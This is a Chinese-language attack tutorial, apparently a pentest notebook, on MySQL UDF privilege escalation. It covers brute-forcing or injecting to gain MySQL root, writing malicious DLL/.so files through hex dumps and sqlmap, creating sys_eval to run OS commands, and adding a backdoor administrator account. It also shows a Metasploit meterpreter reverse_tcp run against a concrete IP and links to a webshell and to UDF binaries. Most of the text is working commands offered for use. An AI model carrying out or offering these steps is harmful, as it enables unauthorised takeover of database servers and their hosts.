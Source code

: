 # **UDF提权**
UDF提权是通过数据库来实现获取目标系统的管理员的shell，root，system。达到从低权限提权到高权限 

^
用户自定义函数，是数据库功能的一种扩展，用户通过自定义函数（动态链接库）实现mysql中无法方便实现的功能，其添加得新函数都可以在sql语句中调用，就像调用version()。

## **提权条件**
有了mysql高权限，如root用户。
获取：
1. 3306端口弱口令爆破。
2. sqlmap 注入的 --sql-shell 模式。sqlmap查表拿到root明文拿去cmd5网站破译 --dump -C "password" -T user -D mysql。
3. 网站的数据库配置文件中拿到明文密码信息。
4. CVE-2012-2122 等这类漏洞直接拿下MYSQL权限。  
5. phpmyadmin爆破登录。
6. 必须能写文件。

^
## **不同版本动态链接库dll或so要写入的位置**
查看版本：select version();
MySQL < 5.0，mysql能检索的目录即可。
5.0<=MySQL<5.1 ,需要导出至目标服务器的系统目录。（如：c/windows/system32/）
MySQL >= 5.1 ，必须放置于 MySQL 安装目录下的 lib\plugin 文件夹下才能创建自定义函数
^
mysql配件位置：select @@plugin_dir;
如果不存在的话可以在 webshell 中找到 MySQL 的安装目录然后手工创建 \lib\plugin\文件夹：
mysql安装目录位置：select @@basedir;

普通linux中mysql：/usr/lib/mysql/plugin/
宝塔linux中mysql：/www/server/mysql/lib/plugin/
windows的phystudy中mysql：\phpstudy_pro\Extensions\MySQL5.7.26\lib\plugin\
^
## **动态链接库dll或so文件来源**
sqlmap中有（/usr/share/sqlmap/data/udf/），不过编码过so_，需要先解码成so
MSF中的没有编码过直接可用 (根目录/embedded/framework/data/exploits/mysql)
或直接下载：<https://sqlsec.lanzoux.com/i4b7jhyhwid>

^
## **写入和利用**
**1.利用十六进制数据字符写入表在转化成dll：**
获取udf.dll文件的十六进制hex值，这里存入txt。
>可以使用工具提取，也可以直接使用mysql函数读转写文件（已知能读写）：
    select hex(load_file("C:/udf.dll")) into dumpfile 'C:/udf.txt'
```
登录目标机数据库，创建表:
use mysql;
create table udf(c LONGBLOB)  //创建udf表，c字段

表中插入值这个十六进制串并hex解码：
insert into udf values(unhex('十六进制串'));

查写入地址：
select @@plugin_dir;

查这个表的结果通过into dumpfile 'xx/lib/plugin/udf.dll'写入：\的路径改为/
select c from udf into dumpfile 'D:/xxx/udf.dll';
```

**实际直接写十六进制串到目标文件也可以，上面作废。十六进制串：**<https://www.sqlsec.com/tools/udf.html>
```
select 0x十六进制串 into dumpfile 'D:/xxx/udf.dll';
```
出现以下报错，把64换成32位的即可。
```
ERROR 1126 (HY000): Can't open shared library 'udf.dll' (errno: 193 )
```


^
^
**2.直接利用sqlmap的post传参将动态链接库文件写入mysql目录：**
SQL 注入且是高权限，plugin 目录可写且需要 secure\_file\_priv 无限制，MySQL 插件目录可以被 MySQL 用户写入，这个时候就可以直接使用 sqlmap 来上传动态链接库，又因为 GET 有**字节长度限制**，所以往往 POST 注入才可以执行这种攻击
```
--secure-file-priv = null  //任何不可读写
--secure-file-priv =        //任何可读写
--secure-file-priv = c:\   //只有C盘可读写
在 MySQL 5.5 之前 secure_file_priv 默认是空，这个情况下可以向任意绝对路径读写文件
在 MySQL 5.5 之后 secure_file_priv 默认是 NULL，这个情况下不可以读写文件
查看配置：
show variables like '%secure%';
```
sqlmap写动态链接库
```
sqlmap -u "http://localhost:30008/" --data="id=1" 
--file-write="/Users/sec/Desktop/lib_mysqludf_sys_64.so" 
--file-dest="/usr/lib/mysql/plugin/udf.so"
```

^
**3.提权利用：**
可以利用动态链接库里定义函数，使用可以操作系统shell的函数，且为最高权限system。
```
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll'; //创建函数

select * from mysql.func; //查看自定义的函数
drop function sys_eval; //删除自定义函数

select sys_eval('whoami'); //使用函数
```
windows加用户并加入管理员组
```
创建一个用户hacker ,密码123456
net user hacker 123456 /add

将hacker用户加入管理员组，有远程登录权限。
net localgroup administrators hacker /add
`
```

^
^
## **MSF直接使用UDF模块**
前提：mysql的root账号知道密码，开启了外链登录，可以写文件。
```
开启：
GRANT ALL PRIVILEGES ON *.* TO '帐号'@'%'IDENTIFIED BY '密码' WITH GRANT OPTION;
```
使用MSF中的exploit/multimysql/mysql_udf_payload模块可以进行UDF提权，注入dll。
MSF会将dll文件写入lib\plugin\目录下（前提是该目录存在，需手工创建），
该dll文件中包含sys_exec(）和sys_eval(）两个函数，但是默认只创建sys_exec(）函数，该函数执行并不会有回显。
我们可以手动创建sys_eval()函数，来执行有回显的命令。
MSF:（前提mysql的root开启了外链）
```
use exploit/multi/mysql/mysql_udf_payload
show options
set payload windows/meterpreter/reverse_tcp
set username root
set password root密码
set rhosts 47.102.195.100
run
```
Navicat中：
```
MSF外链root导入dll后，再sql语句执行后续命令调用执行
select * from mysql.func where name="sys_exec";//查看自义定函数中有无sys_exec了，也可以看到绑定的dll名称
create function sys_eval retums string soname "WqkerHcA.dll";//创建函数sys_eval()绑定dll，dll名字随机需要手动查看或上一条命令查看。
select sys_eval("whoami");/调用函数进行命令执行
```
^
^
# **内网MySQL UDF提权**
假设目标 MySQL 在内网情况下，已经开启了外链，无法直连 MySQL 或者 MySQL账号不允许外连，这个时候一些服务端本地网页脚本（本地localhost连接）就比较方便好用了。

上传这个php程序到目标站点，登录内网mysql和一键UDF提权：<https://github.com/echohun/tools/blob/master/%E5%A4%A7%E9%A9%AC/udf.php>

或者上传存在sql注入的datagear服务，java8启动，可以连接localhost，读数据，再用sqlmap提权。

或者可执行文件如go程序可以配置连接本地数据库的。

或者端口转发。
^
^
^
# **UDF+反弹shell提权**
UDF 提权的另一种用法，这里的动态链接库被定制过的，
如上传动态链接库后，创建绑定函数，函数可以传入反弹的ip和端口作为参数，运行即可反弹shell，且这个shell为最高权限，实现提权。

